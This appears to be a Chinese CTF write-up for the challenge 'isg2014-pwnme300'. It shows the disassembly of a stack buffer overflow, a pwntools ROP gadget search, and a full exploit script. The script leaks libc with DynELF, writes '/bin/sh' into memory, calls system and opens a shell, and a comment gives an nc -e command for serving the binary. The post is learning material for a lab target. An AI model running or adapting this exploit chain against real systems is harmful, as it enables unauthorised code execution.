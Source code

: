 ```yaml
---
layout: post
title: isg2014-pwnme300
category: writeup
tags: pwn
keywords: 
description: 
---
```


温习这个题目是为了学习`pwntools`。

'''asm
Dump of assembler code from 0x4005bd to 0x400621:
   0x00000000004005bd:	55	push   %rbp
   0x00000000004005be:	48 89 e5	mov    %rsp,%rbp
   0x00000000004005c1:	48 83 ec 10	sub    $0x10,%rsp
   0x00000000004005c5:	bf 3c 00 00 00	mov    $0x3c,%edi
   0x00000000004005ca:	e8 c1 fe ff ff	callq  0x400490 <alarm@plt>
   0x00000000004005cf:	ba 13 00 00 00	mov    $0x13,%edx
   0x00000000004005d4:	be 84 06 40 00	mov    $0x400684,%esi
   0x00000000004005d9:	bf 01 00 00 00	mov    $0x1,%edi
   0x00000000004005de:	e8 9d fe ff ff	callq  0x400480 <write@plt>
   0x00000000004005e3:	48 8d 45 f0	lea    -0x10(%rbp),%rax
   0x00000000004005e7:	ba 00 01 00 00	mov    $0x100,%edx
   0x00000000004005ec:	48 89 c6	mov    %rax,%rsi
   0x00000000004005ef:	bf 00 00 00 00	mov    $0x0,%edi
   0x00000000004005f4:	e8 a7 fe ff ff	callq  0x4004a0 <read@plt>
   0x00000000004005f9:	b8 00 00 00 00	mov    $0x0,%eax
   0x00000000004005fe:	c9	leaveq 
   0x00000000004005ff:	c3	retq   
'''

漏洞非常明显

寻找`rop`

'''python
>>> from pwn import *
>>> elf = ELF('/ctf/pwnme')
[*] '/ctf/pwnme'
    Arch:          amd64-64-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
>>> rop = ROP(elf)
[*] Loading gadgets for '/ctf/pwnme' @ 0x400000
>>> rop.rdi
(4195939L, {'insns': ['pop rdi', 'ret'], 'move': 16, 'regs': ['rdi']})
>>> hex(4195939)
'0x400663'
>>> rop.rsi
(4195937L, {'insns': ['pop rsi', 'pop r15', 'ret'], 'move': 24, 'regs': ['rsi', 'r15']})
'''

利用代码

'''python
from pwn import *

#p = process('/ctf/pwnme')		# pwnme 是一个控制台程序。 pwn强大在统一输入输出接口
p = remote('127.0.0.1', 1111)	# nc -l -p 1111 -e /ctf/pwnme

rop_rdi = 0x400663
rop_rsi = 0x400661
read_plt = 0x4004a0
write_plt = 0x400480
read_got_plt = 0x601028
write_got_plt = 0x601018
seg_data = 0x601040
main = 0x4005bd

def leak(addr):
	p.readline()
	payload = 'A'*24 + p64(rop_rdi) + p64(1) + p64(rop_rsi) + p64(addr)*2 + \
				p64(write_plt) + p64(main)
	p.send(payload.ljust(0x100, 'A'))
	ret = p.recv(0x100)
	print hex(addr), len(ret)
	return ret

d = DynELF(leak, main)	
#d = DynELF(leak, main, elf = ELF('/ctf/pwnme'))
#libc = d.lookup(None, 'libc')
system = d.lookup('system', 'libc')
#print "%x" % libc
log.success("%x" % system)

p.readline()
payload = 'A'*24 + p64(rop_rdi) + p64(0) + p64(rop_rsi) + p64(seg_data)*2 + \
			p64(read_plt) + p64(main)
p.send(payload.ljust(0x100, 'A'))
p.send('/bin/sh\x00')

p.readline()
payload = 'A'*24 + p64(rop_rdi) + p64(seg_data) + p64(system)
p.send(payload)

p.interactive()
'''